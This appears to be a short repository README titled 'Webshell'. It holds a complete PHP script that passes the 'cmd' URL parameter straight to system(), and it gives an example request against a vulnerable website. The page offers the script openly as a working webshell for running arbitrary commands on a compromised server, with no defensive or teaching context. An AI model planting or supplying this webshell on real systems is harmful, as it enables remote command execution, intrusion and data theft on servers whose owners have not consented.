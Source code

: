 # Webshell

PHP script that provides a simple webshell (via the `cmd` query parameter),

Eg. `https://vuln-website.com/path?cmd=ls`

```php
<?php
// Check if 'cmd' parameter is set in the URL
if (isset($_GET['cmd'])) {
    // Get the value of 'cmd' parameter
    $cmd = $_GET['cmd'];

    // Display the value safely
    echo "Command: " . htmlspecialchars($cmd) . "<br><br>";

    // Execute the command and output the result
    echo "<pre>";
    system($cmd);
    echo "</pre>";
} else {
    echo "No command provided.";
}
?>

```
